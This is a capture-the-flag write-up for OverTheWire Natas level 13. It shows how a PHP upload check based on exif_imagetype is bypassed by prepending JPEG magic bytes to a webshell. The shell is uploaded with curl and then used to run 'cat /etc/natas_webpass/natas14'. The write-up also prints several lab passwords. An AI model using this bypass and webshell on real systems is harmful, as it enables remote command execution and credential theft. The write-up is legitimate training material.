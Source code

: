 # Natas Level 13

```bash
Username: natas13
Password: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
URL:      http://natas13.natas.labs.overthewire.org
```
We enter the site, and see the following page:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas13.png" />
    <div align="center">Natas 13</div>
</figure>

Clicking on the "View sourcecode" link:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas13-view-sourcecode.png" />
    <div align="center">Natas 13 - View sourcecode</div>
</figure>

Here the script is almost identical to the last one:
```php
function genRandomString() { 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 

    return $string; 
} 

function makeRandomPath($dir, $ext) { 
    do { 
        $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
} 

function makeRandomPathFromFilename($dir, $fn) { 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
} 

if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 
     
    $err=$_FILES['uploadedfile']['error']; 
    if($err){ 
        if($err === 2){ 
            echo "The uploaded file exceeds MAX_FILE_SIZE"; 
        } else{ 
            echo "Something went wrong :/"; 
        } 
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) { 
        echo "File is not an image"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded"; 
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    }
```
When trying to upload the PHP-webshell (from level 12), we get the following:


```bash
curl -u natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY --form uploadedfile=@PHP-webshell.php --form filename=shell.php http://natas13.natas.labs.overthewire.org

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas13", "pass": "jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY" };</script></head>
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

File is not an image<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
We can see that the filename hidden value have .jpg extension, so we need to change it to .php, lets use cURL again:

```bash
curl -u natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 --form uploadedfile=@PHP-webshell.php --form filename=shell.php http://natas12.natas.labs.overthewire.org
```

except the one additional check (*[exit_imagetype](http://php.net/manual/en/function.exif-imagetype.php)*), according to the man page:
<pre><span class="function"><strong>exif_imagetype()</strong></span> reads the first bytes of an image and checks its signature.
When a correct signature is found, the appropriate constant value will be returned otherwise the return value is <strong><code>FALSE</code></strong>.</pre>

We just need to add jpg [magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) (FF D8 FF DB) to the beggining of the file:
```bash
www@Roee-Ubuntu:~$ file PHP-webshell.php 
PHP-webshell.php: PHP script, ASCII text
www@Roee-Ubuntu:~$ printf "\xFF\xD8\xFF\xDB" | cat - PHP-webshell.php > PHP-webshell-jpg.php 
www@Roee-Ubuntu:~$ file PHP-webshell-jpg.php 
PHP-webshell-jpg.php: JPEG image data
```

Lets try to upload this webshell:
```bash
curl -u natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY --form uploadedfile=@PHP-webshell-jpg.php --form filename=shell.php http://natas13.natas.labs.overthewire.org
```

The result is:
```bash
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas13", "pass": "jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY" };</script></head>
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

The file <a href="upload/vevsok4ez0.php">upload/vevsok4ez0.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Nice, now similar to the last level, lets inject the [command](http://natas13.natas.labs.overthewire.org/upload/vevsok4ez0.php?cmd=cat%20/etc/natas_webpass/natas14):
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas13-webshell.png" />
    <div align="center">Natas 13 - Webshell</div>
</figure>

We got the password for the next level: **Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1**